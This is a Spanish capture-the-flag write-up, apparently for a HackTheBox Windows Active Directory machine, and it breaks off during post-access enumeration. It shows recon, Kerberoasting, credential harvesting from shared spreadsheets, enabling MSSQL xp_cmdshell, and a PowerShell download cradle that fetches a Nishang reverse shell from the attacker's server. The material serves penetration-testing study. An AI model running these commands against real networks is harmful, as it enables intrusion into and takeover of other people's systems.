






## Reconocimiento
Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```console
nmap -p- --min-rate 5000 -sVC -Pn -n 10.10.11.51 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-01 18:39 CET
Nmap scan report for 10.10.11.51
Host is up (0.13s latency).
Not shown: 65508 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-01 17:40:21Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-01T17:41:59+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-02-01T17:41:58+00:00; +3s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.11.51:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.11.51:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-02-01T17:42:03+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-31T21:26:21
|_Not valid after:  2055-01-31T21:26:21
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-02-01T17:41:59+00:00; +3s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-02-01T17:41:58+00:00; +3s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
49722/tcp open  msrpc         Microsoft Windows RPC
49743/tcp open  msrpc         Microsoft Windows RPC
49858/tcp open  msrpc         Microsoft Windows RPC
64343/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2s, deviation: 0s, median: 2s
| smb2-time: 
|   date: 2025-02-01T17:41:24
|_  start_date: N/A
```

**Nota**: Esta máquina está basada en un Pentesting real sobre Windows, aportando las siguientes credenciales:
```console
rose:KxEPkKe6R8su
```
**Nota 2:** Enumeramos un LDAP con el dominio *sequel.htb*, insertamos en nuestro fichero *hosts*.

Comenzamos por el servicio Samba, con la idea de probar las credenciales y permisos sobre los recursos compartidos de la organización.
Vemos que tenemos acceso de lectura a la carpeta *Users*:
```console
nxc smb 10.10.11.51 -u rose -p KxEPkKe6R8su --shares
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ            
```

Accedemos a la carpeta *Users*, pero no encontramos nada relevante:
```console
impacket-smbclient sequel.htb/rose:KxEPkKe6R8su@sequel.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
Accounting Department
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
Users
# use Users
# ls
drw-rw-rw-          0  Sun Jun  9 15:42:11 2024 .
drw-rw-rw-          0  Sun Jun  9 15:42:11 2024 ..
drw-rw-rw-          0  Sun Jun  9 13:17:29 2024 Default
-rw-rw-rw-        174  Sun Jun  9 04:27:10 2024 desktop.ini
# 
```

```console
nxc smb 10.10.11.51 -u rose -p KxEPkKe6R8su --rid-brute | tee recon/nxc-smb-rid.txt
SMB                      10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB                      10.10.11.51     445    DC01             [-] Error checking if user is admin on 10.10.11.51: The NETBIOS connection with the remote host timed out.
SMB                      10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB                      10.10.11.51     445    DC01             498: SEQUEL\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             500: SEQUEL\Administrator (SidTypeUser)
SMB                      10.10.11.51     445    DC01             501: SEQUEL\Guest (SidTypeUser)
SMB                      10.10.11.51     445    DC01             502: SEQUEL\krbtgt (SidTypeUser)
SMB                      10.10.11.51     445    DC01             512: SEQUEL\Domain Admins (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             513: SEQUEL\Domain Users (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             514: SEQUEL\Domain Guests (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             515: SEQUEL\Domain Computers (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             516: SEQUEL\Domain Controllers (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             517: SEQUEL\Cert Publishers (SidTypeAlias)
SMB                      10.10.11.51     445    DC01             518: SEQUEL\Schema Admins (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             519: SEQUEL\Enterprise Admins (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             520: SEQUEL\Group Policy Creator Owners (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             521: SEQUEL\Read-only Domain Controllers (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             522: SEQUEL\Cloneable Domain Controllers (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             525: SEQUEL\Protected Users (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             526: SEQUEL\Key Admins (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             527: SEQUEL\Enterprise Key Admins (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             553: SEQUEL\RAS and IAS Servers (SidTypeAlias)
SMB                      10.10.11.51     445    DC01             571: SEQUEL\Allowed RODC Password Replication Group (SidTypeAlias)
SMB                      10.10.11.51     445    DC01             572: SEQUEL\Denied RODC Password Replication Group (SidTypeAlias)
SMB                      10.10.11.51     445    DC01             1000: SEQUEL\DC01$ (SidTypeUser)
SMB                      10.10.11.51     445    DC01             1101: SEQUEL\DnsAdmins (SidTypeAlias)
SMB                      10.10.11.51     445    DC01             1102: SEQUEL\DnsUpdateProxy (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             1103: SEQUEL\michael (SidTypeUser)
SMB                      10.10.11.51     445    DC01             1114: SEQUEL\ryan (SidTypeUser)
SMB                      10.10.11.51     445    DC01             1116: SEQUEL\oscar (SidTypeUser)
SMB                      10.10.11.51     445    DC01             1122: SEQUEL\sql_svc (SidTypeUser)
SMB                      10.10.11.51     445    DC01             1128: SEQUEL\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB                      10.10.11.51     445    DC01             1129: SEQUEL\SQLRUserGroupSQLEXPRESS (SidTypeAlias)
SMB                      10.10.11.51     445    DC01             1601: SEQUEL\rose (SidTypeUser)
SMB                      10.10.11.51     445    DC01             1602: SEQUEL\Management Department (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             1603: SEQUEL\Sales Department (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             1604: SEQUEL\Accounting Department (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             1605: SEQUEL\Reception Department (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             1606: SEQUEL\Human Resources Department (SidTypeGroup)
SMB                      10.10.11.51     445    DC01             1607: SEQUEL\ca_svc (SidTypeUser)
```
Utilizamos la herramienta **ldapdomaindump** para dumpear la información y visualizarla de forma gráfica:
```console
ldapdomaindump -u sequel.htb\\rose -p KxEPkKe6R8su 10.10.11.51 -o files/ldap-results
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```
En la siguiente imagen, vemos que el usuario *Ryan* es miembro del grupo *Management Department* y *Remote Management Users*, este último es interesante, ya que nos permitiría utilizar el protocolo **WinRM** para establecer una conexión remota con la máquina:


Ahora analizaremos el Active Directory con **Bloodhound**, la idea es enumerar deficiencias y pivotar entre usuarios:
```console
bloodhound-python -u rose -p KxEPkKe6R8su -ns 10.10.11.51 -c all -d sequel.htb
INFO: Found AD domain: sequel.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.sequel.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 10 users
INFO: Found 59 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: test-pc.sequel.htb
INFO: Querying computer: DC01.sequel.htb
WARNING: Could not resolve: test-pc.sequel.htb: The DNS query name does not exist: test-pc.sequel.htb.
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
INFO: Done in 00M 53S
```

Visualizamos los usuarios afectados por *Kerberoasting*:


## Explotación
A continuación, utilizamos la herramienta **GetUserSPNs** de **Impacket**, logramos extraer los hashes de las cuentas *sql_svc* y *ca_svc*:
```console
impacket-GetUserSPNs sequel.htb/rose:KxEPkKe6R8su -dc-ip 10.10.11.51 -request -outputfile files/GetUserSPNs.hashes
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName     Name     MemberOf                                              PasswordLastSet             LastLogon                   Delegation 
-----------------------  -------  ----------------------------------------------------  --------------------------  --------------------------  ----------
sequel.htb/sql_svc.DC01  sql_svc  CN=SQLRUserGroupSQLEXPRESS,CN=Users,DC=sequel,DC=htb  2024-06-09 09:58:42.689521  2025-02-01 12:54:14.075677             
sequel.htb/ca_svc.DC01   ca_svc   CN=Cert Publishers,CN=Users,DC=sequel,DC=htb          2025-02-01 15:25:55.381214  2025-02-01 16:40:38.622546             

[-] CCache file is not found. Skipping...
```

Intentamos crackear los hashes con **hashcat** y el diccionario **rockyou**, pero sin éxito:
```console
hashcat -m 13100 -a 0 files/GetUserSPNs.hashes /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
<SNIP>
Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: files/GetUserSPNs.hashes
Time.Started.....: Sat Feb  1 19:27:23 2025 (1 min, 18 secs)
Time.Estimated...: Sat Feb  1 19:28:41 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   453.0 kH/s (0.61ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 0/2 (0.00%) Digests (total), 0/2 (0.00%) Digests (new), 0/2 (0.00%) Salts
Progress.........: 28688770/28688770 (100.00%)
Rejected.........: 0/28688770 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 92%

Started: Sat Feb  1 19:26:27 2025
Stopped: Sat Feb  1 19:28:42 2025
```

Volvemos a revisar el **SMB** en busca de información, debido a que estábamos atascado y era la única vía accesible. Allí, encontramos dos ficheros excel dentro del directorio *Accounting Department*, y nos lo descargamos:
```console
impacket-smbclient sequel.htb/rose:KxEPkKe6R8su@sequel.htb                                                        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
Accounting Department
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
Users
# use Accounting Department
# ls
drw-rw-rw-          0  Sun Jun  9 13:11:31 2024 .
drw-rw-rw-          0  Sun Jun  9 13:11:31 2024 ..
-rw-rw-rw-      10217  Sun Jun  9 13:11:31 2024 accounting_2024.xlsx
-rw-rw-rw-       6780  Sun Jun  9 13:11:31 2024 accounts.xlsx
# get accounting_2024.xlsx
# get accounts.xlsx
# 
```

Intentamos abrir los ficheros con diferentes herramientas de ofimática, pero no logramos encontrar el formato correcto para que sean legibles:


Como ya sabemos, los ficheros ofimáticos se pueden descomprimir como de un fichero *zip* se tratara, así que lo descomprimimos y buscamos credenciales sobre algunos de ellos haciendo una barrida recursiva con **grep**:
```console
grep -ri password --colour
xl/sharedStrings.xml:<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si>
<t xml:space="preserve">Last Name</t></si><si>
<t xml:space="preserve">Email</t></si><si>
<t xml:space="preserve">Username</t></si><si>
<t xml:space="preserve">Password</t></si><si>
<t xml:space="preserve">Angela</t></si><si>
<t xml:space="preserve">Martin</t></si><si>
<t xml:space="preserve">angela@sequel.htb</t></si><si>
<t xml:space="preserve">angela</t></si><si>
<t xml:space="preserve">**************</t></si><si>
<t xml:space="preserve">Oscar</t></si><si>
<t xml:space="preserve">Martinez</t></si><si>
<t xml:space="preserve">oscar@sequel.htb</t></si><si>
<t xml:space="preserve">oscar</t></si><si>
<t xml:space="preserve">**************</t></si><si>
<t xml:space="preserve">Kevin</t></si><si>
<t xml:space="preserve">Malone</t></si><si>
<t xml:space="preserve">kevin@sequel.htb</t></si><si>
<t xml:space="preserve">kevin</t></si><si>
<t xml:space="preserve">**************</t></si><si>
<t xml:space="preserve">NULL</t></si><si>
<t xml:space="preserve">sa@sequel.htb</t></si><si>
<t xml:space="preserve">sa</t></si><si>
<t xml:space="preserve">**************</t></si></sst>
```

Reutilizamos las credenciales de **MSSQL** con la herramienta *impacket-mssqlclient*, habilitamos la opción *enable_xp_cmdshell* para lograr ejecutar comandos remotos:
```console
impacket-mssqlclient sequel.htb/sa@10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> sp_configure "show advanced options", 1
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE
SQL (sa  dbo@master)> sp_configure "xp_cmdshell", 1
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE
SQL (sa  dbo@master)> xp_cmdshell "whoami"
output           
--------------   
sequel\sql_svc   

NULL             

SQL (sa  dbo@master)>
```

Descargamos y configuramos una reverse shell de **Nishang**, nos ponemos en escucha por el puerto 443, levantamos un servidor HTTP con Python y ejecutamos el siguiente comando para descargar, ejecutar y conseguir acceso a la máquina:
```console
SQL (sa  dbo@master)> xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.10.14.155:8000/m3.ps1\")
```

Ganamos acceso a la máquina, enumeramos los grupos y privilegios que tenemos:
```console
sudo nc -nvlp 443                                      
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.155] from (UNKNOWN) [10.10.11.51] 52371
Windows PowerShell running as user sql_svc on DC01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
sequel\sql_svc
PS C:\Windows\system32>
PS C:\> whoami /all
dir

USER INFORMATION
----------------

User Name      SID                                         
============== ============================================
sequel\sql_svc S-1-5-21-548670397-972687484-3496335370-1122


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                             Attributes                                                     
========================================== ================ =============================================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                              Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                                    Mandatory group, Enabled by default, Enabled group              
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                                    Mandatory group, Enabled by default, Enabled group              
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group              
CONSOLE LOGON                              Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group              
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group              
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group              
